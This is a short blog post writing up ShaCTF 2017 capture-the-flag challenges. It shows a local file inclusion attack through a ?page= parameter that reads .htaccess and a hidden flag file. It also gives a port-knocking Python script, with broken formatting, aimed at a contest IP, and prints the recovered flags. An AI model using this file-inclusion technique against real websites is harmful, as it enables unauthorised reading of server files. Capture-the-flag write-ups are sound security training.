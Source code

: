 ```yaml
---
layout: post
title:  ShaCTF  2017 Challenges  [Web 100pts , Binary 100pts , Network 100pts]
---
```


<h3>[Web 100pts] </h3>
<p>we given this target :

http://bonappetit.stillhackinganyway.nl/

after some browsing we Got this parametre is effected by Vulnerability LFI

http://bonappetit.stillhackinganyway.nl/?page=

from source code : <!-- TODO: Check apache access and error log for errors -->

http://bonappetit.stillhackinganyway.nl/?page=.htaccess

<FilesMatch "suP3r_S3kr1t_Fl4G">

http://bonappetit.stillhackinganyway.nl/?page=suP3r_S3kr1t_Fl4G

the flag : flag{82d8173445ea865974fc0569c5c7cf7f}
</p>

<hr>
<p>
The challenge name and description and the servers’ response ,

by using a script :

```
#!/usr/bin/python 
import socket 
plist = [88, 156, 983, 1287, 8743, 5622, 9123]
host = '34.249.81.124'
data = "" 
for p in plist: 
print("Attempting to connect to %s on port %s" % (host, p)) 
try: s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(1.0) s.connect((host, p)) 
data += s.recv(1024) 
data += s.recv(1024) 
data += s.recv(1024) 
s.close() 
except Exception as e: continue print data
```

Attempting to connect to 34.249.81.124 on port 88

Attempting to connect to 34.249.81.124 on port 156

Attempting to connect to 34.249.81.124 on port 983

Attempting to connect to 34.249.81.124 on port 1287

Attempting to connect to 34.249.81.124 on port 8743

Attempting to connect to 34.249.81.124 on port 5622

Attempting to connect to 34.249.81.124 on port 9123

flag{6283a3856ce4766d88c475668837184b}

<p>


 This Video include write ups of the 3 challenges : web , Binary , Network
 
<iframe width="560" height="315" src="https://www.youtube.com/embed/WDbLoBYLtQE" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>


</p>
<p>#0v3n_Sh3ll ❤</p>
